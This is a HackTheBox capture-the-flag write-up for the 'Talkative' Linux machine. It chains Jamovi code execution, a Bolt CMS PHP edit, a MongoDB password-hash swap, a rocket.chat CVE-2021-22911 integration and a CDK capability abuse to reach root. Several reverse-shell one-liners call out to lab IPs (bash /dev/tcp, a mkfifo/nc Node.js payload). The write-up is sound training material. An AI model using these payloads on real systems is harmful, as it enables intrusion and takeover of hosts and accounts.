 # Talkative HackTheBox Writeup
### Level: `Hard` | OS: `Linux`

![logo](1.png)

## Scanning
We run nmap on ports with scripts and software versions.

![](2.png)

## Enumeration
Add the domain "*talkative.htb*" in the file "*/etc/hosts*", access to the web service

![](3.png)

We list a few users:
![](4.png)

We see that the cms is a **Bolt CMS**:
![](5.png)

On port 3000 we have a **rocket.chat**, we found nothing useful on it.

![](6.png)

On port 8080 we have a **Jamovi**:

![](7.png)

We list **Jamovi** version *0.9.5.5.5*:

![](8.png)


## Exploitation
Looking for information about this software, I find that there is an editor in the application to be able to execute commands.

```bash
system("id", intern=TRUE)
```

![](9.png)

We are trying to get up a revshell, although if we access it will probably be to a content...


```bash
system("bash -c 'bash -i >&/dev/tcp/10.10.14.32/443 0>&1'", intern=TRUE)
```

We get a connection to the server, we are effectively in a **docker**:

![](10.png)

We check the root directory, we see the **jamovi*** folder and an *.omv* file of the **Bolt** administration (remember the CMS we detected earlier).

![](11.png)

As I didn't have netcat, I encoded it in base64 and passed it to my computer.

![](12.png)

I didn't get complicated, used *grep -r* to search for keywords like "*password*", the passwords of several users came up.

![](13.png)

We tried to test the credentials found, but none of them worked.

![](14.png)

So I tried with classic users like "*root, admin...*" and the latter worked!

![](15.png)

We can't upload php files from the file upload, but we can edit existing php files, in my case I edited the "*bundles.php*" and inserted a revshell:

```bash
exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.32/443 0>&1'")
```

![](16.png)

We set **netcat** to listen and we receive the connection:

![](17.png)

We see that we are in another container:

![](18.png)

**Ping** does not exist on the machine, so I did a **curl** to *172.17.0.1* and listed the web service.

![](19.png)

We test the credentials via **SSH**, get access as *saul* and read the user flag.

![](20.png)


## Privilege Escalation
We launch **linpeas.sh** and list what could be vulnerable to *SUDO* and *Polkit*.

![](21.png)

We didn't find much else, so we launch the **pspy** tool and see that a file called "*update_mongo.py*" is running as root.

![](22.png)

It looks like the **rocket.chat** one is the one running with the **mongo**, but we don't know which **docker** it is running on.

![](23.png)

So I launched a loop on the default port of **mongodb** to see the server response via a **curl**, I saw that the **mongodb** is located on the machine with IP *172.17.0.2*:

![](24.png)

We port forward port *27017* with **Chisel** so we can work locally.

![](25.png)

Connect to **mongodb** and list several databases:

![](26.png)

We access the "*meteor*" database and list the **rocket.chat** tables:

![](27.png)

We list the user "*saul*" and his password in bcrypt:

![](28.png)

We tried the three passwords we have, but none of them is valid, but as we have access to the db we could modify it for one we know by changing the hash in bcrypt:

![](29.png)

We are able to access the panel as administrator:

![](30.png)

We list the version of **rocket.chat**:

![](31.png)

Searching for the version, I found this exploit:
##### Exploit: [https://github.com/CsEnox/CVE-2021-22911](https://github.com/CsEnox/CVE-2021-22911)

Although code can also be executed from **MondoDB** integrations (which is what this exploit below does).

![](32.png)

```bash
const require = console.log.constructor('return process.mainModule.require')();
const { exec } = require('child_process');
exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.62 555 >/tmp/f');
```

We run curl and get a revshell:

![](33.png)

We transfer the **linpeas.sh** tool and run it, it shows us that we have *cap-dac-read-search* capability. Looking for information of the exploitation, I found this tool that I did not know it and I believe that it was the ideal moment after the return of the vacations to know new tools.

#### Tool: [CDK](https://github.com/cdk-team/CDK)

We see some goodness of **cdk** and we see that there is the "*cap-dac-read-search*", which comes perfectly to try to read the file *root.txt*.

![](34.png)

We run it and manage to read the file root.txt.

![](35.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='43' align='center'> [@David_Uton](https://twitter.com/David_Uton)